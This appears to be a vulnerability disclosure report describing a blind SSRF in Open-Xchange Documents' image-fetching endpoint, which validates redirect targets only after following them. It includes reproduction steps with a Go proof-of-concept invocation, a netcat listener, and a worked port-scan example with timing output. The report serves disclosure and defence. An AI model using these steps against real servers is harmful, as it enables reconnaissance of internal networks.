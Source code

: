 # Summary

Logic in `AddFileAction.getImageDataFromUrl` for fetching images from external URLs when handling `/appsuite/api/oxodocumentfilter&action=addfile` implemented [here](https://gitlab.open-xchange.com/documents/office/-/blob/develop/com.openexchange.office.rest/src/com/openexchange/office/rest/AddFileAction.java#L374) validates the redirected URLs only after following all redirects

```java 
response = httpClient.execute(getRequest, context);

int statusCode = response.getStatusLine().getStatusCode();
if (statusCode == HttpStatus.SC_OK) {
    List<URI> locations = context.getRedirectLocations();
    if (locations != null) {
        for (URI uri : locations) {
            try {
                Optional<OXException> oxException = validator.apply(uri.toURL());
                if (oxException.isPresent()) {
                    throw (RESTException) oxException.get().getCause();
                }
            } catch (MalformedURLException e) {
                throw new RESTException(ErrorCode.GENERAL_ARGUMENTS_ERROR, e);
            }
        };
    }
    long length = response.getEntity().getContentLength();
    ...
}
```
This may be used by an attacker to execute blind SSRF attacks.

# Steps to reproduce

1. Install Open-Xchange and Documents in a virtual machine by following guides https://oxpedia.org/wiki/index.php?title=AppSuite:Open-Xchange_Installation_Guide_for_Debian_9.0 and https://oxpedia.org/wiki/index.php?title=AppSuite:Documents_Installation_Guide#Debian_GNU.2FLinux_9.0_.28valid_from_v7.10.29
2. Inside VM run following command to make netcat listen on `127.0.0.1:7070`
   ```shell script
   nc -l 127.0.0.1 -p 7070
   ```
3. On host machine, install golang from https://golang.org/dl/
4. Download and extract poc.zip file
5. Open terminal / command line and set current directory to extracted poc.zip folder
6. Run command
   ```shell script
   go run . -redirectorAddress="172.16.146.1:8081" -targetPorts="7070" -serverRoot="http://172.16.66.130" -username="testuser" -password="secret"
   ```
   where
   - redirectorAddress: The IP address and port the which redirector server should bind to. This IP address should be accessible from the VM
   - targetPorts: Port inside VM where netcat is listening to
   - serverRoot: Base URL of open-xchange server
   - serverUser: Username of any user in open-xchange server
   - serverPass: Password of user in open-xchange server
   
Running above command will display following output in netcat
```shell script
GET /image.png HTTP/1.1
Accept: *
Accept-Encoding: gzip
Host: 127.0.0.1:7070
Connection: Keep-Alive
User-Agent: Open-Xchange Image Url Data Fetcher
```
   
# Impact
Since this is a blind SSRF, it is not possible to read the response of HTTP requests. However this vulnerability can be used for reconnaissance.

### Example: Port Scan by measuring response time
To run a port scan on ports 7070,61616,8004,80,22,25,8080,3125 on the local network of server, execute the following command
```shell script
go run . -redirectorAddress="172.16.146.1:8081" -targetPorts="7070,61616,8004,80,22,8080,3125" -serverRoot="http://172.16.66.130" -username="testuser" -password="secret" -numSamples=20
```
Output:
```shell script
2020/05/04 13:32:42 7070: 2.220000
2020/05/04 13:32:42 61616: 3567.000000
2020/05/04 13:32:42 8004: 2.980000
2020/05/04 13:32:42 80: 3.180000
2020/05/04 13:32:42 22: 34.600000
2020/05/04 13:32:42 25: 2169.333333
2020/05/04 13:32:42 8080: 2.560000
2020/05/04 13:32:42 3125: 3.000000
```
We can use lsof to see open ports inside the VM
```shell script
sudo lsof -nP -iTCP -sTCP:LISTEN
```
Output:
```shell script
COMMAND  PID         USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
java     467 open-xchange   15u  IPv6  13049      0t0  TCP 172.16.66.130:9994 (LISTEN)
java     467 open-xchange   16u  IPv6  15970      0t0  TCP *:42319 (LISTEN)
java     467 open-xchange   24u  IPv6  14136      0t0  TCP 127.0.0.1:61616 (LISTEN)
java     467 open-xchange   33u  IPv6  16419      0t0  TCP *:8004 (LISTEN)
java     489 open-xchange   37u  IPv6  14138      0t0  TCP 127.0.0.1:9999 (LISTEN)
java     489 open-xchange   42u  IPv6  17565      0t0  TCP 127.0.0.1:1099 (LISTEN)
java     489 open-xchange   47u  IPv6  14144      0t0  TCP 127.0.0.1:5701 (LISTEN)
java     489 open-xchange  127u  IPv6  15345      0t0  TCP *:36149 (LISTEN)
java     489 open-xchange  144u  IPv6  17559      0t0  TCP 127.0.0.1:8009 (LISTEN)
apache2  526         root    3u  IPv6  13789      0t0  TCP *:80 (LISTEN)
apache2  527     www-data    3u  IPv6  13789      0t0  TCP *:80 (LISTEN)
apache2  528     www-data    3u  IPv6  13789      0t0  TCP *:80 (LISTEN)
mysqld   695        mysql   26u  IPv4  13847      0t0  TCP 127.0.0.1:3306 (LISTEN)
exim4   1077  Debian-exim    3u  IPv4  13115      0t0  TCP 127.0.0.1:25 (LISTEN)
exim4   1077  Debian-exim    4u  IPv6  13116      0t0  TCP [::1]:25 (LISTEN)
sshd    1345         root    3u  IPv4  14259      0t0  TCP 172.16.66.130:22 (LISTEN)
sshd    1345         root    4u  IPv4  14261      0t0  TCP 127.0.0.1:22 (LISTEN)
```

From the above outputs, following observations can be made:
- As we can see for closed ports 7070, 8080 and 3125, the response times are low (~ less than 3ms)
- For open ports, depending on the type of listening connection, response time varies
  - For ssh (port 22) the response time is ~34ms
  - For exim (port 25) the response time is ~2170ms
  - For ActiveMQ (port 61616) the reponse time is ~3567ms
  - For http (port 80 and 8004) the response time is ~3ms (this type is hard to distinguish from closed ports)
  
So an attacker can use this vulnerability to detect most open ports and can use the response time to detect the type of connection (ssh / exim / activemq etc.)